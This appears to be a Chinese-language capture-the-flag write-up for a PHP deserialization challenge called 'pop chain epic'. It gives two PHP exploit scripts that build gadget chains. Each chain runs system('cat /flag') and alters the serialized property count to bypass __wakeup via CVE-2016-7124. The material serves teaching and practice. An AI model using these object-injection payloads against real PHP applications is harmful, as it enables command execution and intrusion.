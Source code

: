 # pop chain epic

很简单的反序列化

本题有两种做法

## 做法一

通过`epic`类调用`chain`类的`getAFKL`方法，将`pop`类中的`self::$bbb`赋值为`true`。最后用`CVE-2016-7124`绕过`__wakeup`。

```php
<?php
class pop
{
	public $aaa;
	
	public function __construct()
	{
		$this->aaa = [
			1=>"system",
			2=>"cat /flag",
			"object"=>[(new epic()), "getAFKL"]
		];
	}
}

class chain
{
    private $AFKL = true;
}

class epic extends chain
{
    public $aaa;

	public function __construct()
	{
		$this->aaa = $this;
	}
}

echo base64_encode(str_replace('O:3:"pop":1:', 'O:3:"pop":2:', serialize(new pop)));
```

## 做法二(期望解)

`php`中有很多不需要参数的内置函数会返回`true`，直接赋值就好。

```php
<?php
class pop
{
	public $aaa;
	
	public function __construct()
	{
		$this->aaa = [
			1=>"system",
			2=>"cat /flag",
			"object"=>"phpinfo"
		];
	}
}

echo base64_encode(str_replace('O:3:"pop":1:', 'O:3:"pop":2:', serialize(new pop)));
```

